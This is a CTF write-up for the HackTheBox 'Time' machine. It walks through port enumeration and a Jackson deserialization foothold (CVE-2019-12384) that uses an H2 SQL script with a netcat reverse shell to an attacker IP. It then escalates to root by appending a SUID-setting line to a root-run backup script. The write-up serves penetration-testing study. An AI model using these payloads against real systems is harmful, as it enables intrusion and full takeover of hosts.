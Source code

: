```yaml
---
layout: post
title:  "HackTheBox - Time"
date:   2021-07-30 17:06:25
categories: CTF writeups
---
```


# ENUMERATION

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Trying to validate anything on the webpage shows us this error:

```js
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'flf': was expecting 'null', 'true', 'false' or NaN
```
Sending a json object (eg: {"user":"admin"}) gives this error:

```js
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

# FOOTHOLD

[javascript deserialization CVE](https://github.com/jas502n/CVE-2019-12384/blob/master/CVE-2019-12384.sh)

Write this script:

```s
┌──(kali㉿MaskdMafia)-[~/Downloads]
└─$ cat inject.sql 

CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4242 >/tmp/f')         
```
And then we put the following to validate while simultameously listening in terminal via netcat:

```s

    "ch.qos.logback.core.db.DriverManagerConnectionSource",
    {
        "url": "jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http:\/\/10.10.14.8:3000\/inject.sql'"
    }
]
```
And we get the reverse shell. Time to stabilize the shell then :)

We get the user flag in /home/pericles. Now its time for root.

# PRIVILEGE ESCALATION

Using pspy64s binary we see a suspicious script /usr/bin/timer_backup.sh , run by root and we have write access!

So I just add this command to the bottom of the script:

```s
echo "chmod +s /bin/bash" >> timer_backup.sh
```
So here's the full script:

```s
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
chmod +s /bin/bash
```
After this we wait a bit and execute the following to get the root flag:

```s
pericles@time:/usr/bin$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# ls
backup.zip  root.txt  snap  timer_backup.sh
bash-5.0# cat root.txt
```

